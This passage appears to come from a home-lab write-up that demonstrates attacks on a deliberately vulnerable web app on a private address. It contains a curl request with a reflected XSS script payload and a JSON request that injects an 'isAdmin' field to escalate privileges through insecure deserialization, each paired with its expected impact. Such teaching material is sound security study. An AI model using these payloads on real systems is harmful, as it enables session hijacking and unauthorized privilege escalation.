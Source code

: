 - **Expected Behavior:**
  Returns a search result page displaying the query term.

**XSS Attempt**:

```bash
curl "http://192.168.60.2:8080/search?q=<script>alert('XSS')</script>"
```

- **Exploit:**
  Injects malicious JavaScript, which executes in the victim’s browser when they view the response. This can lead to session hijacking or phishing attacks.

![Output](/assets/img/Home%20Lab/XSSsearch.png)

---

### **6. Insecure Deserialization**

**Endpoint**: POST `/deserialize`

**Normal Request**:

```bash
curl -X POST http://192.168.60.2:8080/deserialize \
  -H "Content-Type: application/json" \
  -d '{"data":"{\"username\":\"admin\"}"}'
```

- **Expected Behavior:**
  This endpoint parses JSON input and returns it as a JSON object.

**Deserialization Exploit**:

```bash
curl -X POST http://192.168.60.2:8080/deserialize \
  -H "Content-Type: application/json" \
  -d '{"data":"{\"username\":\"admin\",\"isAdmin\":true}"}'
```

- **Exploit:**
  The attacker can craft malicious JSON input that includes unauthorized fields such as `isAdmin: true`, which could be misused by the application if proper validation is not implemented.

- **Impact:**
  If the application relies on this deserialized data for authorization, an attacker could escalate privileges or alter behavior maliciously.

---

